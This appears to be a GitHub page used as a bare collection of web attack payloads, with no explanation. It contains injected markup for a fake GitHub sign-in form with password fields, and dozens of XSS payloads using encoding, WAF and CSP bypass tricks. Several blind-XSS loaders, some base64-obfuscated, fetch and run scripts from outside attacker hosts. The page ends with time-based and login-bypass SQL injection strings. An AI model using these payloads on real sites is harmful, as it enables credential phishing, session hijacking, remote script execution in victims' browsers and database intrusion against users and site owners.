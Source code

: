 $$\<script>{&lt;div&gt;&lt;section&gt;&lt;h2&gt;Sign in to GitHub&lt;/h2&gt;&lt;label&gt;Username: &lt;/label&gt;&lt;input&gt;&lt;br&gt;&lt;label&gt;Password: &nbsp;&lt;/label&gt;&lt;input&gt;&lt;br&gt;&lt;button&gt;Sign in&lt;/button&gt;&lt;/section&gt;&lt;/div&gt;<!--}$$
## Input tag:
$$\<script>{&lt;input&gt;<!--}$$
## Button tag:
$$\<script>{&lt;button&gt;Test Button&lt;/button&gt;<!--}$$
## Textarea tag:
$$\<script>{&lt;textarea&gt;Write something...&lt;/textarea&gt;<!--}$$


XSS XSS XSS XSS XSS XSS XSS XSS

$$\<script>{&lt;div&gt;&lt;section&gt;&lt;h2&gt;Sign in to GitHub&lt;/h2&gt;&lt;label&gt;Username: &lt;/label&gt;&lt;input&gt;&lt;br&gt;&lt;label&gt;Password: &nbsp;&lt;/label&gt;&lt;input&gt;&lt;br&gt;&lt;button&gt;Sign in&lt;/button&gt;&lt;/section&gt;&lt;/div&gt;<!--}$$
## Input tag:
$$\<script>{&lt;input&gt;<!--}$$
## Button tag:
$$\<script>{&lt;button&gt;Test Button&lt;/button&gt;<!--}$$
## Textarea tag:
$$\<script>{&lt;textarea&gt;Write something...&lt;/textarea&gt;<!--}$$

0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

"><script src="https://js.rip/8rbc6u9kxc"></script>

"><><img src=x onError=prompt(1)>


javascript:eval(atob('dmFyIHNjcmlwdFRhZyA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpOwogICAgICBzY3JpcHRUYWcuc3JjID0gImh0dHBzOi8vYnVndnNtZS4wMDB3ZWJob3N0YXBwLmNvbS9hbGVydC5qcyI7CiAgICAgIGRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJteS1zY3JpcHQiKS5hcHBlbmRDaGlsZChzY3JpcHRUYWcpOw==))



this.innerHTML=String.fromCharCode(60,105,109,103,32,115,114,99,61,39,120,39,32,111,110,101,114,114,111,114,61,39,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,59,39,62)

<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x29;">xss</a>

"><a href=&#x6a;avascript:alert(0)//>xss</a>

https://storage.googleapis.com/bypass_csp/xss.js

https://accounts.google.com/o/oauth2/revoke?callback=alert(1)

>҉ðŸ˜‡Ÿ˜<҉💋😇"><script src=https://bugvsme.xss.ht></script>"<script>alert(0)</script>	

cloudflare bypass %26lt;svg%20on%20onload%3D(alert)(document.domain)>

"><img/src/onerror=alert(0)>


"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


%26quot;%26gt;%26lt;img%2Fsrc%2Fonerror%3Dalert()>


?utm_source=abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e 



+'alert(0)'+

"hello<form/><!><details/open/ontoggle=alert(1)>"
@gmail
.com


<img src=totallyfake onerror=import(‘//domain.com/‘);//


%2522%253e%253cscript%253ealert(0)%253c/script%253e

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3




<pre data-sourcepos="&#34;%22 href=&#34;x&#34;></pre>
<base href=https://js.rip/8rbc6u9kxc>
<pre x=&#34;">
<code></code></pre>

<iframe/srcdoc='<script/src=/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/alert.js></script>'></iframe>


%253Cscript%253Ealert('XSS')%253C%252Fscript%253E


"><input%20tabindex=%221%22%20on%00mousemove=alert()%20onm%00ouseover=%22eval(atob(this.id))%22%20id=%22dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7%22%20autofocus=%22%22%3E


"><input type=image src=x onerror=alert()>

"tabindex="1" onfocus="alert(1)" autofocus"


"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnVndnNtZS54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

\x3Cscript\x3E alert()\x3C/script\x3E



/logout_redirect.do?sysparm_url=//j%5c%5cjavascript%3aalert(document.domain)"


[![<img](https://www.linkpicture.com/q/get-started-button-1.svg)](https://www.linkpicture.com/q/34643474-rubber-stamp-with-text-do-not-open-inside-vector-illustration-1.svg)

![<img](https://www.linkpicture.com/q/get-started-button-1.svg)

"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//






SQLI SQLI SQLI SQLI SQLI 

admin' or '1'='1

'XOR(sleep(5))OR'
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
;%20waitfor%20delay%20'0:0:6'%20--%20

